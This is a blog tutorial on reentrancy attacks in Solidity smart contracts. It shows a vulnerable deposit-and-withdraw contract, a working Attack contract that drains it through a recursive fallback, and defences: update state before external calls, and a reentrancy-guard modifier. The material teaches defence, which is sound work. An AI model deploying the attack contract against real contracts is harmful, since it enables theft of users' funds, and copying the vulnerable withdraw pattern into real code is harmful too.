 ```yaml
---
title: Secure Smart Contracts from Reentrancy attack
date: 2021-12-06
image: /assets/images/blog/12.jpg
tags: security, web3, smart-contracts,blockchain,solidity
---
```


Reentrancy attack is one of the most destructive attacks in Solidity smart contract. A reentrancy attack occurs when a function makes an external call to another untrusted contract. Then the untrusted contract makes a recursive call back to the original function in an attempt to drain funds.

When the contract fails to update its state prior to sending funds the attacker can continuously call the withdraw function to drain the contract’s funds. A famous real-world Reentrancy attack is the DAO attack which caused a loss of 60 million US dollars

### How does reentrancy attack work?

A reentrancy attack involves two smart contracts. A vulnerable contract and an untrusted attackers contract.

![Reentrancy Attack in Solidity Smart Contract](/assets/images/blog/12.1.jpg)

### Reentrancy attack scenario

1.  Vulnerable smart contract have 10 eth.
2.  An attacker store 1 eth using deposit function.
3.  An attacker calls the withdraw function and points to a malicious contract as a recipient.
4.  Now withdraw function will verify if it can be executed:

- Does the attacker have 1 eth on their balance? Yes – because of their deposit.
- Transfer 1 eth to a malicious contract. (Note: attacker balance has NOT been updated yet)
- Fallback function on received eth calls withdraw function again.

5.  Now withdraw function will verify if it can be executed:

- Does the attacker have 1 eth on their balance? Yes – because the balance has not been updated.
- Transfer 1 eth to a malicious contract.
- and again until the attacker will drain all the funds stored on the contract

Below is the contract which contains the reentrancy vulnerability

```
contract DepositFunds {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }
}
```

The vulnerability comes where we send the user their requested amount of ether. In this case, the attacker calls withdraw() function. Since his balance has not yet been set to 0, he is able to transfer the tokens even though he already received tokens.

Now, let's consider a malicious attacker creating the following contract

```
contract Attack {
    DepositFunds public depositFunds;

    constructor(address _depositFundsAddress) {
        depositFunds = DepositFunds(_depositFundsAddress);
    }

    // Fallback is called when DepositFunds sends Ether to this contract.
    fallback() external payable {
        if (address(depositFunds).balance >= 1 ether) {
            depositFunds.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        depositFunds.deposit{value: 1 ether}();
        depositFunds.withdraw();
    }


}
```

The attack function calls the withdraw function in the victim’s contract. When the token is received the fallback function calls back the withdraw function. Since the check is passed contract sends the token to the attacker which triggers the fallback function.

### How to protect smart contract against reentrancy attack?

To prevent a reentrancy attack in a Solidity smart contract you should:

- Ensure all state changes happen before calling external contracts, i.e. update balances or code internally before calling external code
- Use function modifiers that prevent re-entrancy

#### Modifier to prevent a reentrancy attack

```
contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```
